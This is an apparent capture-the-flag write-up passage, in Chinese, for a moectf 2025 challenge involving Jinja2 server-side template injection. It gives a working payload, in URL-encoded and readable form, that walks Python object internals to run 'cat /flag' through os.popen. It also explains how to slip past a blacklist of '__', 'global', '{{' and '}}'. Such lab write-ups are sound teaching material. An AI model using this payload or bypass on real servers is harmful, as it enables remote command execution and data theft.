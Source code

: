 ![image.png](../../assets/images/moectf2025wp/image_52.png)

戳啦！梭不出来！

接下来进入手搓环节，先上 payload:

```php
http://127.0.0.1:33363/?username={%25%20print({}[%27_%27%27_class_%27%27_%27]|attr(%27_%27%27_base_%27%27_%27)|attr(%27_%27%27_subclasses_%27%27_%27)()|attr(%27_%27%27_getitem_%27%27_%27)(207)|attr(%27_%27%27_init_%27%27_%27)|attr(%27_%27%27_glo%27%27bals_%27%27_%27))[%27_%27%27_builtins_%27%27_%27][%27eval%27](%27_%27%27_import_%27%27_(%22os%22).popen(%22cat%20/flag%22).read()%27)%20%25}&password=iwantflag
```

可读版：

```python
{% print({}['_''_class_''_']|attr('_''_base_''_')|attr('_''_subclasses_''_')()|attr('_''_getitem_''_')(207)|attr('_''_init_''_')|attr('_''_glo''bals_''_'))['_''_builtins_''_']['eval']('_''_import_''_("os").popen("cat /flag").read()') %}
```

先阅读手搓指南： https://www.freebuf.com/articles/web/359392.html

我们的黑名单 blacklist = ["__", "global", "{{", "}}"]

`{{` 和 `}}` 可以通过 `{% print()%}` 绕过， `global` 通过字符串拼接绕过，你能写出更好的 payload 吗？

![image.png](../../assets/images/moectf2025wp/image_53.png)

---